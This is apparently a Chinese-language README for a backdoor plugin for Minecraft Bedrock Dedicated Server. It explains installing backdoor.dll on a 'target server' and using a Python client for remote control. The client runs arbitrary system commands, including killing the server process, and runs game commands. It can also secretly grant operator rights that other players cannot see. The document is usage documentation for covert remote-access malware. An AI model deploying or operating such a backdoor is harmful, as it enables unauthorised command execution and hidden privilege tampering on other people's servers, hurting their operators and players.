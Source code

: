 # backdoor

一个适用于Bedrock Dedicated Server的后门插件

## 使用
1. 将``backdoor.dll``安装到目标服务器
2. 待目标服务器开启后使用后门客户端``client.py``进行远控，以下是其使用方法

## 运行后门客户端
安装Python后在命令行中使用以下命令来运行程序：

```
python client.py
```

输入服务器IP和端口
启动程序时会提示你输入服务器的IP地址和端口号，格式为 IP地址:端口号（例如 127.0.0.1:19132）

示例：

```
Please input server ip:port like 127.0.0.1:19132
114.51.41.91:9810
```

客户端功能
客户端程序具有以下功能：

``scmd [cmd]`` - 执行系统命令
``gcmd [cmd]`` - 执行游戏命令
``perm [玩家名称:区分大小写] [等级: 0~3] [0: 客户端隐藏变化 | 1: 客户端显示变化]`` - 设置玩家权限级别
``q`` - 退出程序

请根据需要输入相应的命令来执行相应的操作。例如，要执行游戏命令``kick WillowSauceR``，输入以下命令：

```
>>> kick WillowSauceR
```

执行系统命令``taskkill /F /IM bedrock_server.exe``
```
>>> scmd taskkill /F /IM bedrock_server.exe
```

给游戏中的玩家设置权限
权限等级：0为普通玩家，大于0为OP
显示/隐藏：对其他玩家和自己隐藏权限变化，无法在游戏内发现
以下命令为玩家``WillowSauceR``设置了OP权限且对其他玩家隐藏
```
>>> perm WillowSauceR 1 0
```

要退出程序，输入以下命令：

```
>>> q
```
